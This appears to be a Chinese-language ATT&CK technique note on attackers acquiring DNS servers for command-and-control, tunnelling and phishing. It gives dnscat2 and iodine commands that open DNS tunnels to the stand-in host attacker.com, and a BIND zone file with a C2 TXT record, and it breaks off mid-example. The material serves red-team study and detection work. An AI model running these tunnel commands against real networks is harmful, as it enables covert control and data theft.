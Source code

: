 # T1583-002-获取基础设施-DNS服务

## 描述
攻击者在入侵目标组织之前，可能设置并控制自己的域名系统（DNS）服务器，以支持目标定位和攻击执行。通过运行自有DNS服务器，攻击者可以实现对DNS流量的精细控制，用于命令与控制（C2）、数据泄露或其他恶意活动。相较于劫持现有DNS服务器，自建DNS服务器提供了更高的灵活性和隐蔽性，特别是在基于DNS的C2通道中。

攻击者可能通过以下方式利用自建DNS服务器：
- **命令与控制（C2）**：通过DNS查询（如TXT记录）传输C2指令，绕过传统防火墙检测。
- **DNS隧道（DNS Tunneling）**：将恶意数据封装在DNS协议中，用于数据泄露或隐蔽通信。
- **钓鱼支持**：使用自建DNS服务器解析伪造域名，配合钓鱼攻击。
- **条件响应**：配置DNS服务器根据客户端特征（如IP、User-Agent）返回特定的恶意响应。

DNS服务器的隐蔽性得益于DNS协议的普遍性和低检测率，因为大多数防火墙和IDS对DNS流量缺乏深入分析。攻击者可能通过购买域名、租用云服务器或使用开源DNS软件（如BIND、PowerDNS）快速搭建DNS基础设施。

## 测试案例
以下是模拟攻击者获取和使用DNS服务的常见方法和工具：

### 1. **DNS隧道（DNS Tunneling）**
DNS隧道通过将数据封装在DNS协议中传输，绕过防火墙和IDS的检测。分为直连和中继两种模式：
- **直连模式**：客户端直接与攻击者的权威DNS服务器通信，速度快但隐蔽性较弱。
  ```bash
  # 使用dnscat2建立直连DNS隧道
  dnscat2 --dns server=attacker.com,port=53 --secret=secretkey
  ```
- **中继模式**：通过递归DNS查询，经过多个节点传输数据，隐蔽性强但速度较慢。
  ```bash
  # 使用iodine建立中继DNS隧道
  iodine -f -P secretkey attacker.com
  ```

### 2. **DNS服务器搭建**
- **工具**：
  - **BIND** (<https://www.isc.org/bind>): 开源DNS服务器软件，用于搭建权威DNS服务器。
  - **PowerDNS** (<https://www.powerdns.com>): 支持灵活的DNS记录配置。
  - **dnscat2** (<https://github.com/iagox86/dnscat2>): 用于DNS隧道的C2工具。
  - **iodine** (<https://github.com/yarrick/iodine>): 支持DNS隧道的数据传输。
  - **Cobalt Strike DNS Beacon**: 商业攻击框架，支持DNS C2通道。
- **示例**：
  - 在云服务器（如AWS、阿里云）上部署BIND，配置TXT记录用于C2。
    ```bash
    # BIND配置文件示例 (/etc/named.conf)
    zone "attacker.com" {
        type master;
        file "/var/named/attacker.com.zone";
    };
    # 区域文件 (/var/named/attacker.com.zone)
    $TTL 3600
    @ IN SOA ns1.attacker.com. admin.attacker.com. (
        2025060401 ; Serial
        3600       ; Refresh
        1800       ; Retry
        604800     ; Expire
        3600 )     ; Minimum
    @ IN NS ns1.attacker.com.
    ns1 IN A 192.168.1.100
    c2 IN TXT "command:execute_payload"
    ```
  - 使用dnscat2建立DNS C2通道：